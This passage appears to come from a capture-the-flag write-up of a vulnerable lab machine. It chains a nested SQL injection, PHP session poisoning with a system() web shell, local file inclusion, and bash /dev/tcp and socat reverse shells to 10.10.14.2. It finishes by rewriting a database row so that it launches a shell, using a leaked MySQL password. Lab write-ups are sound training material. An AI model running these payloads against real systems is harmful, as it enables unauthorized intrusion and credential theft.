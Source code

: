 To full control the result, we want the query to be something like:
```
SELECT path from filepath where name = 0xdf UNION select /etc/passwd
```

Since we need to pass through the previous function, we will start the injection as before and replace the second injection as well.
```
587' and 1=2 UNION select '0xdf\' union select \'/etc/passwd\'-- -
```

#### Shell
To get a shell we will perform a log poisoning by adding a malicious cookie and reading it in our php session inside `/var/lib/php/sessions/`.

Our cookie is `ts59o3kme7rf31qgpv0d4fsna2`, so the file poisoned will be `/var/lib/php/sessions/sess_ts59o3kme7rf31qgpv0d4fsna2`.

Add this cookie and perform the LFI:
```
# URL encoded it on request
shell=<?php system($_GET['cmd']); ?>

# Include reverse shell command parameter
cmd=bash -c 'bash -i >& /dev/tcp/10.10.14.2/1337 0>&1'

/index.php?cmd=bash+-c+'bash+-i+>%26+/dev/tcp/10.10.14.2/1337+0>%261'&id=587%27%20and%201=2%20UNION%20select%20%270xdf\%27%20union%20select%20\%27/var/lib/php/sessions/sess_ts59o3kme7rf31qgpv0d4fsna2%27--%20-%27--%20-

# Use port 443, tried port 1337 and it didn't work.
# You can enumerate firewall rules on /etc/iptables/rules.v4

# Get a better shell with
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.14.2:443
```

Since this machine doesn't have python, you can get a full TTY with socat using this as listener:
```
socat file:`tty`,raw,echo=0 tcp-listen:443,reuseaddr
```

<br>

### Guly User

We can connect into myql with the credentials enumerated on index.php:
```shell
mysql -u nestedflanders -p1036913cf7d38d4ea4f79b050f171e9fbf3f5e
```

Listing table config inside neddy database, we enumerate this interesting row:
```
| 86 | checkrelease | /home/guly/checkbase.pl;/home/guly/checkplugins.pl;
```

We can update this row and get a shell.
```sql
update config set option_value = "socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.14.2:443" where id = 86;

select * from config where id = 86;
```
